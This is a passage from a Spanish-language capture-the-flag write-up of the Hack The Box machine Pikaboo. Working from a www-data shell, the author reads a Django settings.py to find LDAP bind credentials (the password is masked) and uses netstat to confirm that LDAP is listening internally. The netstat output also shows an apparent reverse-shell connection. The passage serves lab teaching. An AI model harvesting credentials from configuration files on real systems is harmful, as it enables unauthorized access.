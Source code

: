 ```bash
www-data@pikaboo:/$ ls -l /opt/pokeapi/config/
total 28
-rwxr-xr-x 1 root root    0 Jul  6 20:17 __init__.py
drwxr-xr-x 2 root root 4096 Jul  6 16:10 __pycache__
-rw-r--r-- 1 root root  783 Jul  6 20:17 docker-compose.py
-rwxr-xr-x 1 root root  548 Jul  6 20:17 docker.py
-rwxr-xr-x 1 root root  314 Jul  6 20:17 local.py
-rwxr-xr-x 1 root root 3080 Jul  6 20:17 settings.py
-rwxr-xr-x 1 root root  181 Jul  6 20:17 urls.py
-rwxr-xr-x 1 root root 1408 Jul  6 20:17 wsgi.py
```
Un archivo con nombre `settings.py` me llama la atención, miro lo que hay dentro y me encuentro con algo:

```bash
www-data@pikaboo:/$ cat /opt/pokeapi/config/settings.py 

[...]

ROOT_URLCONF = "config.urls"

WSGI_APPLICATION = "config.wsgi.application"

DATABASES = {
    "ldap": {
        "ENGINE": "ldapdb.backends.ldap",
        "NAME": "ldap:///",
        "USER": "cn=binduser,ou=users,dc=pikaboo,dc=htb",
        "PASSWORD": "XXXXXXXXXXXXXXXXXXXXXXXXXX",
[...]
```
¡Unas credenciales en texto claro!, parecen ser del servicio [LDAP](https://www.profesionalreview.com/2019/01/05/ldap/){:target="\_blank"}{:rel="noopener nofollow"}.

Este servicio opera por defecto en el puerto `389`, asi que miro para ver si este puerto está activo internamente en la máquina:

```bash
www-data@pikaboo:/$ netstat -nat
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 127.0.0.1:389           0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:81            0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN     
tcp        0    138 10.10.10.249:39350      10.10.14.145:1234       ESTABLISHED
tcp        1      0 127.0.0.1:81            127.0.0.1:60284         CLOSE_WAIT 
tcp6       0      0 :::80                   :::*                    LISTEN     
tcp6       0      0 :::21                   :::*                    LISTEN     
tcp6       0      0 :::22                   :::*                    LISTEN  
```


| Parámetro | Acción |
|:---------:|:------:|
| `-n, --numeric` | Muestra las direcciones de forma númerica |
| `-a, --all` | Muestra tanto los sockets\* en escucha como los que no |
| `-t, --tcp` | Muestra solo los sockets\* que esten operando por `TCP`
